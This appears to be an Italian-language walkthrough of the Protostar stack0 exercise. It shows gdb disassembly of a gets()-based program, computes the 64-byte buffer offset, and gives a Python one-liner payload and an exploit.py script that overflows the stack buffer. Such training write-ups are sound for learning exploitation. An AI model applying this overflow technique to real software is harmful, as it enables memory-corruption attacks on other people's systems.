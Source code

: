 ```` bash
proto@b92cf65f7998:/opt/protostar/bin$ gdb -q                                                      
(gdb) file stack0 
Reading symbols from stack0...done.
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x60,%esp
   0x080483fd <+9>:	movl   $0x0,0x5c(%esp)
   0x08048405 <+17>:	lea    0x1c(%esp),%eax
   0x08048409 <+21>:	mov    %eax,(%esp)
   0x0804840c <+24>:	call   0x804830c <gets@plt>
   0x08048411 <+29>:	mov    0x5c(%esp),%eax
   0x08048415 <+33>:	test   %eax,%eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	movl   $0x8048500,(%esp)
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	movl   $0x8048529,(%esp)
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave  
   0x08048434 <+64>:	ret
````
Nota bene che viene usata nel codice la gets()
````
0x0804840c <+24>:	call   0x804830c <gets@plt>
````
La gets viene messa a puntare dove inizia la variabile buffer, che risiede su 0x5c, quello che viene passato a gets è 0x1c, quindi per trovare la lunghezza del buffer fare 0x5c - 0x1c = 64
Quindi l'idea di buff overflow è A * 64 + 1
payload di attacco: 
```` bash
python3 -c 'print("A"*64 + str(1))' | ./stack0
````

**exploit.py**
```` python
import subprocess

junk = '\x41'    # Junk to overflow the buffer (gets())
fault = '1'      # Byte to create the segmentation fault

# Create the payload to break the binary
payload = junk * 64 + fault

# Create the process to run the binary
process = subprocess.Popen(["./stack0"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
# Execute the binary 
stdout, stderr = process.communicate(input=payload.encode()) 

print(stdout)
print(stderr)
````
